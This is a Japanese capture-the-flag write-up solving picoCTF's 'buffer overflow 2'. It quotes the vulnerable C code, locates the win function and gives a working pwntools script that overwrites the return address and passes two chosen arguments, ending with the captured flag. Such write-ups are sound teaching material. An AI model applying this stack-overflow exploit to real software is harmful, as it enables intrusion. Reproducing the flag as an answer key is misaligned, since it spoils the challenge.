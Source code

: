# buffer overflow 2:Binary Exploitation

Control the return address and arguments\
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program]()? You can view source [here](). And connect with it using `nc saturn.picoctf.net 60902`

# Solution

とりあえず`nc saturn.picoctf.net 60902`を実行してみる。
```
$ nc saturn.picoctf.net 60902
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
入力した文字がそのまま出てくるようだ。ソースコードを見てみる。
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
`BUFSIZE=100`でbufをそのまま出力している。
```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```
flagが出てきそうなwin関数がある。`arg1==0xCAFEF00D`かつ`arg2==0xF00DF00D`である必要がありそうだ。win関数のアドレス値は`64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win`より、0x08049296である。`何らかの文字列100+12文字+0x08049296+リターンアドレス+arg1+arg2`のような入力になるはず。

以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 60902)

payload = b"a"*112
payload += p32(0x08049296)
payload += p32(0x08049372) # ここは何でも良い
payload += p32(0xCAFEF00D) + p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```
フラグが得られた。

`picoCTF{argum3nt5_4_d4yZ_27ecbf40}`

